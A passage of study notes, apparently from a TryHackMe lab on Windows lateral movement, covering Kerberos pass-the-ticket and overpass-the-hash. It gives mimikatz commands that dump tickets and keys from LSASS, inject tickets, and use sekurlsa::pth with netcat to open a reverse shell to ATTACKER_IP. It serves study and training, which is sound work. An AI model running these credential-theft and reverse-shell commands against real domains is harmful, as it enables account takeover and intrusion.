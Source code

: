 ![[0db01f1f1434f33fa8fb11de2bd165a6 2.png]]

3. The TGS can now be sent to the desired service to authenticate, the service will use his configured account's password hash to decrypt the TGS and validate the Service Session Key.

![[5d45b999328017c22b0f249069a88767.png]]

##### Pass-the-Ticket

`privilege::debug`
`sekurlsa::tickets /export` - Extract tickets and session keys from LSASS memory using mimikatz (you will need both to use the ticket).

We can extract TGS with low privileges, but we will usually want TGT that requires administrator credentials since it gives access to any service available to the user.

`kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi` - Inject the ticket into the current session from mimikatz.

`klist` - Check that the tickets were correctly injected.

##### Overpass-the-hash / Pass-the-Key

When a user requests TGT he sends his timestamp encrypted with a key derived from his password, the algorithm can be DES (disabled by default on current windows versions), RC4, AES128 or AES256, if we have any of those key we can ask the KDC for TGT without a password.

`privilege::debug`
`sekurlsa::ekeys` - Obtain the Kerberos encryption keys using mimikatz.

Commands to run from mimikatz to gain a reverse shell based on the available keys:

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"` - If we have the RC4 hash.

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"` - If we have the AES128 hash.

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"` - If we have the AES 256 hash.

If RC4 is one of the enabled protocols, you can also use NTLM hash you obtained since it's the same as RC4, this variant is known as Overpass-the-Hash (OPtH).

##### Let's Get to Work

You will need to authenticate with administrative credentials.

Use one of the attacks against a domain user.

`winrs.exe -r:<domain> cmd` - Use winrs to connect to a command prompt on a specific domain.

## Abusing User Behavior

##### Abusing Writable Shares
